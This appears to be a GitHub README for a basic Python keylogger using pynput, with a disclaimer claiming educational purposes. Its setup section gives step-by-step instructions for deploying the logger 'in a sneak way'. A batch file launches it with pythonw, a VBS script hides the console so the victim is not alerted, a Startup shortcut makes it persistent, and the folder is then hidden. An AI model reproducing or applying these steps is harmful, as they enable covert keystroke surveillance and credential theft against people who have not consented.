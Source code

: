 # Key Logger

A basic key logger which will captures all the detail typed by physical Keyboard
```*Disclaimer*: This content is intended for educational purposes only. I am not responsible for any misuse or incorrect implementation of the information provided```
## Tech Stack

 Python 


## Installation

Open Terminal

```bash
python3 -m pip install --upgrade pip
```
Check the pip version
```bash
pip --version
```
If version is showing you're good to go.  


Necessary pip modules 

```bash
pip install pynput

```
Check whether modules are installed properly or not
```bash
pip show pynput

```
If the details are showing you've installed all the necessary modules
## Setup

To deploy this project in a sneak way follow the instructions

*Create a folder here say ```open_it``` and execute the below instructions in it*

### Create a bat file

Copy the below snippet and make changes as said

```bash
@echo off
pythonw.exe "C:\path\to\your\keylogger.py"

```
Save as ```logger.bat```

Why? Whenever the user logs in cmd prompt will come up on screen and the program will start running

### Create a vbs script file

Copy the below snippet and make changes as said

```bash
Set WshShell = CreateObject("WScript.Shell")
WshShell.Run "C:\path\to\your\keylogger.bat", 0, False

```
Save as ```logger.vbs```

Why? If the user sees the cmd prompt up opening he will be on alert so this file is to make it physically invisible from the screen

### Add it to Startup apps 

Press ```WIN + R```

Create a shortcut file for ```logger.vbs```

### Final Step 

Lock and Hide the ```open_it``` folder.

